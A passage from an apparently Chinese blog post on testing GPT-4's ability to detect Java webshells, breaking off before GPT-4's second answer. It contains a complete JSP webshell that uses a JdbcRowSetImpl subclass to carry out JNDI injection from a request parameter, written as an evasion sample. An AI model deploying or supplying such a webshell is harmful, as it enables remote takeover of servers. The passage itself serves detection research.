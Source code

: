  ![](/img/aiWebshell/3a33dd29-67ba-4bbf-b240-069146639e49.png) ![](https://prod-files-secure.s3.us-west-2.amazonaws.com/a116b209-23ed-47e3-b176-d57fece98279/3f24a588-72fe-4551-bce1-31af6c46ed78/Untitled.png)

它很轻松的识别出样本中使用的JniInitiator类可以用来执行任意命令，在识别到样本可以进行这种行为模式后，判断样本为True。

但是在我对JNDI注入类的WebShell进行注入时，GPT-4的检测结果发生了些变化，我的样本如下：

```java
<%@ page import="com.sun.rowset.JdbcRowSetImpl" %>
<%@ page import="java.sql.SQLException" %>
<%@ page contentType="text/html; charset=UTF-8" language="java" %>
<%
    class a extends JdbcRowSetImpl{
        public a() {
            super();
        }
        public void setDataSourceName(Object var1) throws SQLException{
        };
        public void setAutoCommit(Object var1) throws SQLException{
        };
    }
    a A =  new a();
    A.setDataSourceName(request.getParameter("url"));
    A.setAutoCommit(true);
%>
```

GPT4的回答如下：
